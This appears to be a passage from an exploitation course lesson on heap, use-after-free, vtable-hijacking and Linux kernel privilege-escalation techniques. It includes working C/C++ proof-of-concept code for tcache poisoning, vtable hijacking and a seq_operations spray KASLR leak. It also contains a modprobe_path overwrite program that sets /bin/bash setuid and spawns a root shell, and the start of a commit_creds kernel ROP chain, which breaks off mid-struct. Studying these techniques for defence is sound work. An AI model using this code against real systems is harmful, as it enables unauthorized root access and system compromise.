


# Lesson 4: Advanced Exploitation Techniques

## 1. First-Principles Intuition & Invariants

Modern software exploitation has long since moved past the golden era of simple stack overflows, where a single `strcpy` into a fixed buffer and a hardcoded return address were sufficient to hijack control flow. The defenses that hardened user-space applications — stack canaries, non-executable stacks, ASLR, and full RELRO — did not eliminate exploitation; they raised its cost. Attackers responded by moving the battlefield to the heap, to the kernel, and to the subtle seams where type systems break down. Understanding why these techniques work requires understanding what invariants the runtime assumes to be true, because exploitation is fundamentally an exercise in violating assumptions the system will never check.

The heap is the most consequential attack surface in modern software. Unlike the stack, whose layout is dictated by the rigid call-frame protocol enforced by the ABI, heap layout is driven by dynamic allocation patterns that the program itself controls through calls to `malloc`, `calloc`, `realloc`, and `free`. Allocators impose structure on this chaos: they maintain metadata about chunk sizes, free lists, and bin chains. That metadata lives adjacent to, or even interleaved with, user data. This proximity is the root vulnerability. When an attacker can write past the boundary of one heap object, they are writing into allocator metadata or into an adjacent object's contents, and both outcomes are exploitable.

The GNU C Library's `ptmalloc2` allocator, which underlies virtually every Linux process, organizes free chunks into bins differentiated by size. Chunks smaller than 512 bytes on 64-bit systems cycle through `tcache` (thread-local caching introduced in glibc 2.26) before reaching the smallbin and fastbin chains. Each free chunk stores a forward pointer (`fd`) and backward pointer (`bk`) in the memory that was formerly user data, since the program, by contract, should never read a freed object. The allocator trusts these pointers completely when it unlinks a chunk to satisfy a future allocation. That trust is the invariant an attacker targets.

Heap feng shui is the art of massaging allocator state before triggering a vulnerability so that memory objects land in a predictable configuration. The term, borrowed from the Chinese practice of intentional spatial arrangement, captures the idea precisely: you are not exploiting a bug directly, you are constructing the environment in which the bug becomes deterministic. This is prerequisite work. Without it, a heap overflow or use-after-free produces garbage or a crash; with it, it produces reliable primitive control over allocator bookkeeping or controlled data reads and writes.

Use-after-free (UAF) vulnerabilities represent a specific class of temporal memory safety violation where the program dereferences a pointer after the backing allocation has been returned to the allocator. The freed allocation does not vanish. Its bytes sit in a tcache bin or free list, waiting to be recycled. If the attacker can cause the allocator to reuse that slot for a different object type, they create a type confusion scenario: the program holds a pointer it believes is an instance of type A, but the bytes at that address are now controlled by an instance of type B — or by the attacker directly. The read or write through the stale pointer then operates on attacker-controlled data with A's field semantics.

Type confusion attacks exploit the difference between what a pointer's static type claims is at an address and what actually resides there. In C, the type system is entirely a compile-time fiction; the CPU manipulates bytes and words without awareness of type. In C++ and other object-oriented runtimes, objects carry vtable pointers — pointers to tables of function pointers that implement virtual dispatch. A vtable pointer lives at a fixed offset from the start of an object, typically offset zero. If an attacker can substitute one object for another in memory such that the vtable pointer field of the original type resolves to attacker-controlled memory, then the next virtual method call becomes an indirect control-flow transfer to an arbitrary address. This is the mechanism underlying the majority of browser exploitation in the last decade.

Kernel exploitation raises the stakes of every primitive because the kernel runs at CPL0, the highest CPU privilege ring, without memory isolation from itself, and with direct access to every hardware resource. A single controlled write in kernel space can overwrite a process's `cred` structure to escalate privileges, overwrite a function pointer in a system call table, or corrupt kernel page tables to map attacker-controlled physical pages. The mitigations erected against userspace exploitation — SMEP (Supervisor Mode Execution Prevention), SMAP (Supervisor Mode Access Prevention), KASLR, and kernel stack canaries — each address one vector but not all. Kernel exploits that chain information leaks to defeat KASLR, then trigger a UAF to gain a write primitive, then leverage a carefully chosen kernel data structure to redirect control flow represent the state of the art in modern offensive work.

The invariant that ties all of these techniques together is the concept of a **primitive**. Exploitation is not a monolithic act; it is the composition of discrete, well-understood operations: a read primitive that leaks a known pointer to defeat ASLR, a write primitive that modifies a specific byte or word, an execution primitive that transfers control. The practitioner's discipline is to identify what primitives a given vulnerability provides, understand their constraints, and design a chain that converts an imprecise initial capability into a full privilege escalation or code execution payload. Every advanced technique discussed in this lesson is a component in that chain.

---

## 2. Core Architecture & Mechanics

### The ptmalloc2 Heap Layout and tcache Internals

To perform heap feng shui reliably, you must have an exact mental model of allocator state at the moment the vulnerability fires. On a 64-bit Linux system running glibc 2.31 or later, the allocation path for objects smaller than 1032 bytes proceeds through the thread-local `tcache` first. Each thread maintains a `tcache_perthread_struct` that holds per-size-class singly-linked free lists, capped at seven entries each. When you call `free(ptr)`, the chunk is inserted at the head of its tcache bin if that bin has fewer than seven entries. When you call `malloc(size)`, the allocator checks the matching tcache bin first and returns the head chunk without any size or integrity verification beyond glibc 2.34's `PROTECT_PTR` safe-linking XOR obfuscation.



The safe-linking protection introduced in glibc 2.32 XORs the `fd` pointer with `(uintptr_t)(&chunk->fd) >> 12` before storing it, binding the pointer to its own storage location. An attacker who wants to forge a tcache `fd` to redirect a future allocation to an arbitrary address must first leak the heap base to reconstruct the XOR key. This is precisely why heap exploitation chains invariably begin with an information leak.

The fastbin list is doubly relevant for older glibc targets and because it remains the fall-through path when tcache bins are full. Fastbins are singly-linked, indexed by chunk size in 8-byte increments from 32 to 128 bytes on 64-bit. Critically, the fastbin's unlinking code performs a size check on the allocated chunk — the `size` field of the chunk being removed must match the bin's expected size class — but no such check on the pointer itself until the House of Mind and related GLIBC audit patches. This historical property formed the basis of classic fastbin dup attacks.

The following C program demonstrates the construction of a controlled tcache dup in glibc 2.31, where a double-free is turned into a write-what-where primitive:

```c
/*
 * tcache_dup_www.c
 *
 * Demonstrates tcache poisoning to redirect malloc() to an
 * arbitrary address on glibc 2.31 (before safe-linking, or
 * after leaking heap base for XOR key reconstruction).
 *
 * Compile: gcc -g -o tcache_dup_www tcache_dup_www.c
 * Target:  glibc 2.31 (safe-linking absent)
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>

/* Simulated sensitive target: a fake vtable function pointer. */
static uint64_t fake_target = 0xdeadbeefcafebabe;

int main(void) {
    printf("[*] fake_target is at %p, value = 0x%lx\n",
           &fake_target, fake_target);

    /* Step 1: Allocate three same-size chunks. */
    uint64_t *a = malloc(0x28);
    uint64_t *b = malloc(0x28);
    uint64_t *c = malloc(0x28);   /* barrier chunk to prevent top-chunk coalescing */
    (void)c;

    printf("[*] a = %p, b = %p\n", (void*)a, (void*)b);

    /* Step 2: Free 'a' into tcache bin[0x28]. tcache: a -> NULL */
    free(a);

    /*
     * Step 3: Double-free 'a'. In glibc 2.29+, tcache detects
     * double-free via a 'key' field written into the freed chunk's
     * bk slot. We corrupt it first to bypass the check.
     * In a real exploit the corruption comes from the adjacent
     * overflow or UAF write.
     */
    a[1] = 0;   /* clear tcache key field to bypass double-free detection */
    free(a);    /* tcache: a -> a (cycle) */

    /*
     * Step 4: Consume one entry from the cycle so we can overwrite
     * the fd pointer of the second 'a' in the bin.
     */
    uint64_t *p1 = malloc(0x28);  /* returns 'a', tcache head is now 'a' again */
    printf("[*] p1 (first  malloc) = %p\n", (void*)p1);

    /*
     * Step 5: Overwrite the fd pointer of the remaining 'a' entry
     * to point at our target. In a real exploit this write comes
     * from the vulnerability, not from direct access.
     */
    *p1 = (uint64_t)&fake_target;
    printf("[*] Poisoned tcache fd -> %p\n", (void*)&fake_target);

    /* Step 6: Second malloc returns 'a' again. */
    uint64_t *p2 = malloc(0x28);
    printf("[*] p2 (second malloc) = %p\n", (void*)p2);

    /* Step 7: Third malloc returns &fake_target. */
    uint64_t *p3 = malloc(0x28);
    printf("[*] p3 (third  malloc) = %p  [SHOULD == &fake_target]\n",
           (void*)p3);
    assert(p3 == &fake_target);

    /* Step 8: Write through p3 to overwrite fake_target. */
    *p3 = 0x4141414141414141ULL;
    printf("[*] fake_target after write = 0x%lx\n", fake_target);
    assert(fake_target == 0x4141414141414141ULL);

    printf("[+] Write-what-where primitive demonstrated.\n");
    return 0;
}
```

This example crystallizes the tcache poisoning pattern: a double-free or UAF that grants one write to a freed chunk's `fd` field is sufficient to redirect all subsequent same-size allocations to an arbitrary address. The barrier chunk `c` prevents the allocator from coalescing `a` into the top chunk before the exploit fires, which is a common feng shui concern when target allocations are near the heap boundary.

### Use-After-Free: The Victim, Reclaimer, and Trigger Model

A UAF exploit always involves at least three actors. The **victim** object is the one that gets freed while a stale pointer to it remains in program state. The **reclaimer** is the object type that the attacker causes the allocator to place at the freed address, transforming the bytes at that location from the layout of the victim type to the layout of the reclaimer type. The **trigger** is the program operation that uses the stale pointer, interpreting the reclaimer's bytes through the victim's type semantics.

The practitioner's design task is to find a reclaimer type whose fields, at the offsets where the victim's sensitive fields live, can be set to attacker-chosen values. In browser exploitation, the classic reclaimer is a `Float64Array` or `ArrayBuffer` whose `length` field overlaps with the victim object's size or pointer field, granting an out-of-bounds read or write. In kernel exploitation, freeing a `struct file` and reclaiming its slot with a user-controlled `msg_msg` structure (whose initial bytes are attacker-controlled) is a well-known technique for achieving controlled kernel reads.

```mermaid
flowchart TD
    Start["Time T0: Allocation"]
    T0_malloc["malloc(sizeof(VictimObj))"]
    T0_chunk["Chunk @ 0xABCD<br/>VictimObj Structure"]
    T0_layout["+0x00 vtable_ptr → method_table<br/>+0x08 user_data_ptr<br/>+0x10 ref_count"]
    
    T1_start["Time T1: Free"]
    T1_free["free(victim_ptr)"]
    T1_tcache["Chunk returned to tcache<br/>fd = NULL (tcache head)"]
    
    T2_start["Time T2: Reallocation"]
    T2_malloc["malloc(sizeof(ReclaimerObj))"]
    T2_chunk["Same chunk @ 0xABCD<br/>ReclaimerObj Structure"]
    T2_layout["+0x00 controlled_u64 (overlaps vtable_ptr!)<br/>+0x08 controlled_u64 (overlaps user_data_ptr)<br/>+0x10 controlled_u64 (overlaps ref_count)"]
    T2_write["Attacker writes:<br/>[0xABCD+0x00] = &fake_vtable"]
    
    T3_start["Time T3: Exploitation"]
    T3_call["victim_ptr->virtual_method()"]
    T3_load1["CPU loads [victim_ptr + 0x00]<br/>= &fake_vtable"]
    T3_load2["CPU loads<br/>[&fake_vtable + dispatch_offset]"]
    T3_exploit["JMP to attacker-controlled address"]
    
    Start --> T0_malloc
    T0_malloc --> T0_chunk
    T0_chunk --> T0_layout
    
    T0_layout --> T1_start
    T1_start --> T1_free
    T1_free --> T1_tcache
    
    T1_tcache --> T2_start
    T2_start --> T2_malloc
    T2_malloc --> T2_chunk
    T2_chunk --> T2_layout
    T2_layout --> T2_write
    
    T2_write --> T3_start
    T3_start --> T3_call
    T3_call --> T3_load1
    T3_load1 --> T3_load2
    T3_load2 --> T3_exploit
    
    style T0_chunk fill:#e1f5ff
    style T1_tcache fill:#fff4e1
    style T2_chunk fill:#ffe1e1
    style T2_write fill:#ffcccc
    style T3_exploit fill:#ff9999
```



The object layout diagram above conveys the core invariant: the allocator is a spatial reuse mechanism that does not preserve type identity. Any abstraction built on top of it — C++ virtual dispatch, Rust trait objects, kernel function pointer tables — depends on the program maintaining the invariant that a pointer's type accurately describes the memory it references. UAF breaks this invariant at the temporal level, and type confusion exploits the resulting state.

### C++ Virtual Dispatch and vtable Hijacking

Understanding vtable hijacking in detail requires tracing virtual dispatch through the ABI. Under the Itanium C++ ABI (used on all Linux x86-64 targets), every polymorphic object begins with a vptr — a pointer to the vtable — stored at offset 0. The vtable is a read-only array of function pointers in the `.rodata` section, preceded by the RTTI (Run-Time Type Information) pointer and the offset-to-top value. A virtual function call `obj->method(args)` compiles to: load `vptr` from `[obj]`, load the method's slot from `[vptr + slot_offset]`, call the resulting function pointer with `obj` as the implicit first argument.

If an attacker controls the bytes at `obj`, they control `vptr`. If they control `vptr`, they can point it to a fake vtable they constructed elsewhere in memory, or pivot `vptr` into a region of attacker-controlled data whose `slot_offset` bytes encode the address of shellcode or a ROP gadget. Control Flow Integrity (CFI) mitigations attempt to constrain this by inserting checks that verify the loaded function pointer belongs to the set of valid dispatch targets for the static type. Clang's CFI implementation uses a type-metadata scheme that checks whether the vptr falls within a valid vtable range before dispatch. The attacker's response to CFI is to confuse within-class hierarchies — finding a valid vtable whose slot happens to be useful — rather than inventing arbitrary targets.

The following C++ program creates a minimal proof-of-concept for vtable hijacking under a UAF scenario without CFI, illustrating the mechanical steps a real exploit follows:

```cpp
/*
 * vtable_hijack_poc.cpp
 *
 * Minimal vtable hijacking via use-after-free.
 * Compile: g++ -std=c++17 -fno-pie -no-pie -o vtable_hijack vtable_hijack_poc.cpp
 *
 * NOTE: fno-pie/no-pie to get predictable addresses for demonstration.
 * Real exploit would use an ASLR-defeating leak first.
 */

#include <cstdio>
#include <cstdlib>
#include <cstdint>
#include <cstring>

/* ------------------------------------------------------------------ */
/*  Target class hierarchy                                             */
/* ------------------------------------------------------------------ */

class Base {
public:
    virtual void action() {
        printf("Base::action() called\n");
    }
    virtual void cleanup() {
        printf("Base::cleanup() called\n");
    }
    virtual ~Base() = default;
};

class Derived : public Base {
public:
    void action() override {
        printf("Derived::action() called\n");
    }
};

/* ------------------------------------------------------------------ */
/*  Simulated attacker-controlled payload                             */
/* ------------------------------------------------------------------ */

void hijacked_function() {
    printf("[!] HIJACKED: attacker-controlled function executing!\n");
}

/*
 * A fake vtable must match the layout the compiler generates:
 *   [0] offset-to-top  (0 for single-inheritance primary base)
 *   [1] RTTI pointer   (can be NULL for PoC)
 *   [2] virtual dtor 1
 *   [3] virtual dtor 2 (deleting destructor)
 *   [4] action()
 *   [5] cleanup()
 *
 * We want slot [4] (action) to call hijacked_function.
 * Slot indices for the vptr itself start at [2] in the GCC ABI.
 */
static uintptr_t fake_vtable[6] = {
    0,                                    /* offset-to-top     */
    0,                                    /* RTTI ptr (unused) */
    (uintptr_t)hijacked_function,         /* ~Base() [0]       */
    (uintptr_t)hijacked_function,         /* ~Base() [1]       */
    (uintptr_t)hijacked_function,         /* action()          */
    (uintptr_t)hijacked_function,         /* cleanup()         */
};

/* ------------------------------------------------------------------ */
/*  Exploit scenario                                                   */
/* ------------------------------------------------------------------ */

int main(void) {
    /* T0: Allocate the victim object. */
    Base *victim = new Derived();
    printf("[*] victim allocated at %p\n", (void*)victim);
    printf("[*] victim->vptr = %p\n", *(void**)victim);
    victim->action();   /* legitimate call */

    /* T1: Free the object — in reality, this free and the pointer
           retention are separated by program logic (event callbacks,
           reference count bug, etc.). */
    delete victim;
    printf("[*] victim deleted; stale pointer still held\n");

    /*
     * T2: Reclaim the freed slot with attacker-controlled data.
     * We allocate a same-size buffer and write our fake vptr into
     * the first 8 bytes, which is where vptr lives.
     *
     * sizeof(Derived) == 8 bytes on most implementations (just the vptr).
     * Allocate the same size class to hit the same tcache bin.
     */
    uintptr_t *reclaimer = (uintptr_t*)malloc(sizeof(Derived));
    /*
     * The vtable pointer the ABI loads is vptr[0].
     * Our fake_vtable array starts 2 slots before the actual function
     * pointers (offset-to-top and RTTI precede the first vfunc pointer).
     * So vptr must point to &fake_vtable[0], and the ABI will index
     * from there, with vfunc slots beginning at index [2].
     */
    reclaimer[0] = (uintptr_t)&fake_vtable[0];
    printf("[*] reclaimer placed at %p, wrote fake vptr = %p\n",
           (void*)reclaimer, (void*)fake_vtable);

    /* T3: Trigger the stale pointer. */
    printf("[*] Calling victim->action() through stale pointer...\n");
    victim->action();   /* loads vptr from reclaimer[0], dispatches through fake_vtable */

    free(reclaimer);
    return 0;
}
```

The output of this program, with ASLR and PIE disabled for pedagogical clarity, demonstrates the full dispatch chain: the CPU loads the fake vptr from the reclaimed memory, indexes into the fake vtable, and calls `hijacked_function`. In a real exploit against a PIE binary with ASLR, the attacker first uses a separate read primitive to leak a pointer from the target process's address space — a heap pointer, a `.text` pointer, or a libc pointer — to reconstruct the ASLR slide, then overwrites the vtable pointer with an address calculated from that leak.

### Kernel Exploitation Primitives: cred Overwrite and Arbitrary RIP

Kernel exploits must work within tighter constraints than userspace exploits. The kernel's heap is managed by the SLUB allocator, which segregates allocations by object type into per-CPU caches (freeslists) backed by slab pages. Unlike ptmalloc's size-class bins, SLUB caches are type-specific in principle — `kmem_cache_create()` creates a dedicated cache for a given kernel data structure — but the kernel also uses the generic `kmalloc` caches, which are size-class bins analogous to ptmalloc fastbins. A UAF on a `kmalloc-96` object (a 96-byte allocation from the generic cache) can be exploited by reclaiming the slot with any other structure that uses `kmalloc-96`, including `struct seq_operations`, `struct pipe_buffer`, or the `msg_msg` structure used for POSIX message queues.

The `cred` structure overwrite is the canonical privilege escalation primitive once a kernel write primitive has been secured. Every process has a `task_struct` that embeds a pointer to its `cred` structure, which contains the effective UID, GID, and capability sets that govern privilege. The `cred` structure is allocated from a dedicated kmem cache (`cred_jar`), but the attack model does not require allocating a fake `cred` from that cache; it requires overwriting the `uid`, `euid`, `suid`, `fsuid`, `gid`, `egid`, `sgid`, and `fsgid` fields of the existing `cred` with zero. Setting all these to zero makes the kernel consider the process to be running as root.

```
struct cred (simplified, kernel 6.x):
  Offset  Field          Type
   0x00   usage          atomic_long_t
   0x08   uid            kuid_t  (uint32_t)
   0x0c   gid            kgid_t  (uint32_t)
   0x10   suid           kuid_t
   0x14   sgid           kgid_t
   0x18   euid           kuid_t
   0x1c   egid           kgid_t
   0x20   fsuid          kuid_t
   0x24   fsgid          kgid_t
   ...
   0x58   cap_permitted  kernel_cap_t (uint64_t)
   0x60   cap_effective  kernel_cap_t
   0x68   cap_inheritable kernel_cap_t

Target write sequence for full privilege:
  cred->uid = cred->gid = cred->suid = cred->sgid = 0
  cred->euid = cred->egid = cred->fsuid = cred->fsgid = 0
  cred->cap_permitted = cred->cap_effective = 0x1ffffffffff
```

Finding the `cred` pointer from a kernel write primitive requires first locating the current `task_struct`. The kernel register `gs` base in a running CPU points to the `cpu_local_data` area, from which `current` (the running task pointer) can be derived via `current_task` percpu variable. Under KASLR, all kernel symbols are shifted by a random slide applied at boot; defeating KASLR requires leaking any kernel pointer and subtracting the known offset of that symbol from the kernel base.

The `seq_operations` structure is a classic KASLR leak gadget in kernel UAF exploits. It is allocated from `kmalloc-32` and its first field is a function pointer (`start`) that points into kernel `.text`. If a UAF allows reading the contents of a freed `kmalloc-32` slot that has been reclaimed by a `seq_operations`, reading the first 8 bytes leaks a kernel text address. Subtracting the compiled-in offset of `seq_operations.start`'s target function from the leaked address yields the KASLR slide.

```c
/*
 * kaslr_leak_via_seq_ops.c
 *
 * Demonstrates reading a kernel text pointer from a /proc/self/seq
 * file's seq_operations structure to compute the KASLR slide.
 *
 * Requires: a UAF read primitive that lets us read 8 bytes from
 * a freed kmalloc-32 slot after it has been reclaimed.
 *
 * This code simulates the reclaim-and-read; the actual UAF trigger
 * is vulnerability-specific.
 *
 * Compile (from kernel exploit dev env):
 *   gcc -static -o kaslr_leak kaslr_leak_via_seq_ops.c
 */

#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

/*
 * Compiled-in offset of single_open (target of seq_operations.start
 * for most /proc simple-sequence files). Determined from vmlinux:
 *   nm vmlinux | grep ' single_open'
 * This value is kernel-version-specific; update per target build.
 */
#define SINGLE_OPEN_OFFSET 0xffffffff81234560ULL  /* example; replace per target */
#define KERNEL_BASE_COMPILED 0xffffffff81000000ULL

/*
 * spray_seq_ops: open N /proc/self/net/tcp fds to allocate
 * seq_operations structs from kmalloc-32, raising the probability
 * that the freed UAF slot is reclaimed by one of them.
 */
#define SPRAY_COUNT 256

static int spray_fds[SPRAY_COUNT];

void spray_seq_ops(void) {
    for (int i = 0; i < SPRAY_COUNT; i++) {
        spray_fds[i] = open("/proc/self/net/tcp", O_RDONLY);
        if (spray_fds[i] < 0) {
            perror("open /proc/self/net/tcp");
            exit(1);
        }
    }
    printf("[*] Sprayed %d seq_operations structs into kmalloc-32\n",
           SPRAY_COUNT);
}

void close_spray(void) {
    for (int i = 0; i < SPRAY_COUNT; i++) {
        close(spray_fds[i]);
    }
}

/*
 * read_leaked_ptr: simulates reading 8 bytes from the UAF slot.
 * In a real exploit, this call is replaced with the vulnerability
 * trigger that reads freed memory into userspace.
 */
uint64_t read_leaked_ptr(void *uaf_slot_simulation) {
    /* Simulation: directly read the seq_ops start pointer.
     * Real code: use the UAF read primitive here. */
    return *(uint64_t *)uaf_slot_simulation;
}

int main(void) {
    /*
     * In a real exploit:
     *   1. Trigger UAF to free kmalloc-32 victim.
     *   2. Call spray_seq_ops() to reclaim slot.
     *   3. Use UAF read primitive to leak 8 bytes from freed slot.
     *
     * Here we demonstrate steps 3 and 4 (slide computation)
     * using a direct simulation.
     */
    spray_seq_ops();

    /*
     * Simulate: the UAF primitive reads the first 8 bytes of the
     * reclaimed slot, which is seq_operations.start = &single_open.
     */
    uint64_t leaked_ptr = SINGLE_OPEN_OFFSET; /* replace with UAF read result */

    uint64_t kaslr_slide = leaked_ptr - (SINGLE_OPEN_OFFSET - KERNEL_BASE_COMPILED);
    uint64_t kernel_base  = KERNEL_BASE_COMPILED + kaslr_slide;

    printf("[*] Leaked kernel ptr : 0x%016lx\n", leaked_ptr);
    printf("[*] KASLR slide       : 0x%016lx\n", kaslr_slide);
    printf("[*] Kernel base       : 0x%016lx\n", kernel_base);

    close_spray();
    return 0;
}
```

The spray-and-reclaim pattern is fundamental to heap-based kernel exploitation. Because SLUB per-CPU freelists serve allocations from the most recently freed slot, spraying a large number of same-size-class objects after freeing the victim dramatically increases the probability that at least one spray object lands at the victim's address. The practitioner tunes spray count based on observed SLUB freelist depth, which on a production kernel can be read from `/sys/kernel/slab/kmalloc-32/objs_per_slab` when the kernel is configured with `CONFIG_SLUB_DEBUG`.

### Exploit Chain Composition and the Primitive Ladder

An exploit chain is a directed sequence of primitive conversions that transforms an initial, constrained capability into an unconstrained execution primitive. The chain design is dictated by the gap between what the vulnerability gives you and what full exploitation requires, and by which mitigations guard each step of the gap.



The `modprobe_path` overwrite is worth explaining as a technique because it achieves kernel code execution without directly controlling the instruction pointer. The kernel global `modprobe_path` is a character array storing the path to the module loader (`/sbin/modprobe`). When the kernel encounters an unrecognized executable format during `execve`, it invokes `modprobe_path` as a subprocess. If the attacker overwrites this path string with the path to a world-writable script they control, then triggering an `execve` of an unrecognized binary causes the kernel to execute the attacker's script with root privileges. The overwrite requires only 24 bytes of kernel memory write capability — a very low bar — and completely bypasses CFI and SMEP because the control flow transfer goes through the legitimate `call_usermodehelper` kernel function. This technique was popularized by the kernel community's own proof-of-concept harnesses and remains effective on kernels without `CONFIG_STATIC_USERMODEHELPER`.

```c
/*
 * modprobe_path_overwrite.c
 *
 * Overwrites kernel modprobe_path to execute an attacker
 * script on the next unrecognized execve().
 *
 * Requires: an arbitrary kernel write primitive of >= 24 bytes.
 * Requires: kernel built without CONFIG_STATIC_USERMODEHELPER.
 *
 * Usage after achieving write primitive:
 *   1. Write PAYLOAD_PATH to &modprobe_path in kernel memory.
 *   2. Create /tmp/x with executable content (see below).
 *   3. execve() any file with an unknown magic header.
 */

#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>

#define PAYLOAD_PATH     "/tmp/x"
#define TRIGGER_BINARY   "/tmp/trigger"

/* Write helper: replace with real kernel write primitive. */
extern void kernel_write(unsigned long kaddr, void *buf, size_t len);

/* Determined from /proc/kallsyms after defeating KASLR. */
extern unsigned long modprobe_path_kaddr;

static void create_payload_script(void) {
    int fd = open(PAYLOAD_PATH, O_WRONLY | O_CREAT | O_TRUNC, 0777);
    if (fd < 0) { perror("create payload"); exit(1); }
    const char *script =
        "#!/bin/sh\n"
        "chmod +s /bin/bash\n";   /* setuid root on /bin/bash */
    write(fd, script, strlen(script));
    close(fd);
    chmod(PAYLOAD_PATH, 0777);
    printf("[*] Payload script written to %s\n", PAYLOAD_PATH);
}

static void create_trigger_binary(void) {
    /* Write a file with an unknown magic header to trigger modprobe. */
    int fd = open(TRIGGER_BINARY, O_WRONLY | O_CREAT | O_TRUNC, 0777);
    if (fd < 0) { perror("create trigger"); exit(1); }
    unsigned char magic[4] = {0xde, 0xad, 0xc0, 0xde};  /* unknown format */
    write(fd, magic, sizeof(magic));
    close(fd);
    chmod(TRIGGER_BINARY, 0755);
    printf("[*] Trigger binary written to %s\n", TRIGGER_BINARY);
}

int main(void) {
    create_payload_script();
    create_trigger_binary();

    /* Overwrite modprobe_path in kernel memory. */
    kernel_write(modprobe_path_kaddr,
                 PAYLOAD_PATH,
                 strlen(PAYLOAD_PATH) + 1);
    printf("[*] modprobe_path overwritten with '%s'\n", PAYLOAD_PATH);

    /* Trigger modprobe invocation. */
    printf("[*] Triggering unknown execve...\n");
    execve(TRIGGER_BINARY, (char *[]){TRIGGER_BINARY, NULL},
                           (char *[]){NULL});

    /* execve of unknown format returns ENOEXEC, kernel invokes modprobe. */
    printf("[*] execve returned (expected); checking /bin/bash suid...\n");
    system("ls -la /bin/bash");
    system("/bin/bash -p");   /* -p preserves suid effective uid */
    return 0;
}
```

---

## 3. High-Performance Optimization & Failure Modes

### Spray Precision and Timing-Dependent Reclaim Races

The single most common failure mode in heap-based exploitation is spray imprecision — the reclaimer object does not land at the freed victim's slot, so the type confusion the exploit depends on never materializes. This occurs because the SLUB per-CPU freelist is shared with all concurrent kernel paths running on the same CPU, including interrupt handlers and softirqs that make incidental `kmalloc` calls. A spray that is sufficient in a single-threaded test harness may fail under production load where concurrent kernel activity drains and refills the freelist between the free and the spray.

The mitigation is CPU pinning. By calling `sched_setaffinity` to pin the exploit process to a single CPU core before initiating the spray, the practitioner eliminates cross-CPU interference for the per-CPU freelist of that core. The spray then competes only with interrupt-driven allocations, which are deterministic and bounded. The exploit should also suppress kernel memory reclamation during the spray window by holding a sufficient number of open file descriptors or pinned pages to prevent kswapd from triggering slab shrinkers.

```c
/*
 * pin_to_cpu.c - Pin the calling process to CPU 0 for
 * deterministic per-CPU slab allocation behavior.
 */

#define _GNU_SOURCE
#include <sched.h>
#include <stdio.h>
#include <stdlib.h>

void pin_to_cpu(int cpu) {
    cpu_set_t set;
    CPU_ZERO(&set);
    CPU_SET(cpu, &set);
    if (sched_setaffinity(0, sizeof(set), &set) != 0) {
        perror("sched_setaffinity");
        exit(1);
    }
    printf("[*] Process pinned to CPU %d\n", cpu);
}
```

Spray depth — the number of objects allocated during the spray phase — must exceed the SLUB per-CPU freelist depth plus the partial-slab pool depth. For `kmalloc-32` on a 4-KiB page kernel with order-0 slabs, each slab holds 128 objects. Spraying 512 objects (four full slabs) guarantees high-confidence reclaim even under moderate concurrent load.

### SMEP/SMAP Bypass and Kernel ROP

Supervisor Mode Execution Prevention (SMEP) blocks the kernel from executing pages mapped with user-space privileges (the U/S bit set in the page table entry). Supervisor Mode Access Prevention (SMAP) blocks the kernel from accessing user-space pages at all unless the `AC` flag is set in `RFLAGS`, which is done transiently by `stac`/`clac` instructions around explicit copyin/copyout paths. Together, these hardware features prevent the classical `ret2usr` technique where the attacker places shellcode in a user-space buffer and redirects a kernel function pointer at it.

The response is kernel ROP. By constructing a ROP chain from gadgets within the kernel's `.text` section — which is executable at CPL0 — the attacker can call arbitrary kernel functions without placing new executable code anywhere. The canonical kernel privilege escalation ROP chain calls `commit_creds(prepare_kernel_cred(NULL))` to overwrite the current process's credentials with root credentials, then uses `swapgs_restore_regs_and_return_to_usermode` or a manual `swapgs; iretq` sequence to return cleanly to user space with the new credentials in effect.

Finding gadgets in the kernel binary is done with `ROPgadget` or `ropper` against the decompressed `vmlinux` image. The kernel binary is not stripped of symbols in a debug or development configuration, and even in production `/proc/kallsyms` (readable as root) or a previous KASLR leak exposes symbol addresses. The key gadgets for a minimal `commit_creds` chain are a `pop rdi; ret` to load the `prepare_kernel_cred` return value, a `mov rdi, rax; call ...` or equivalent to pass it to `commit_creds`, and the `swapgs; iretq` epilogue.

```c
/*
 * kernel_rop_chain.c
 *
 * Builds a kernel ROP chain to call:
 *   commit_creds(prepare_kernel_cred(NULL))
 * then returns cleanly to userspace via iretq.
 *
 * Gadget addresses must be computed as:
 *   gadget_addr = compiled_offset + kaslr_slide
 * after the KASLR leak phase completes.
 *
 * The chain is placed on a fake kernel stack (a user-space buffer
 * whose address is stored into the hijacked kernel stack pointer).
 * Under SMEP this is legitimate because the chain is *data*, and
 * kernel stack is mapped as kernel-privilege pages in the kernel
 * address space on systems with CONFIG_VMAP_STACK. Without
 * VMAP_STACK, the user must allocate a fake stack in kernel vmalloc
 * range using a separate write primitive first.
 */

#include <stdint.h>
#include <string.h>
#include <stdio.h>

/* Addresses from KASLR leak + symbol offsets. */
struct kernel_addrs {
    uint64_t prepare_kernel_cred;
    uint64_t commit_creds;
    uint64_t pop_rdi_ret;           /* pop rdi; ret */
    uint64_t pop_rcx_ret;           /* pop rcx; ret */
    uint64_t mov_rdi_rax_jmp_rcx;   /* mov rdi, rax; jmp rcx */
    uint64_t swapgs_iretq;          /* swapgs; popfq; pop rsp; iretq */
    uint64_t user_rip;              /* userspace RIP to return to   */
    uint64_t user_cs;               /* saved CS before kernel entry */
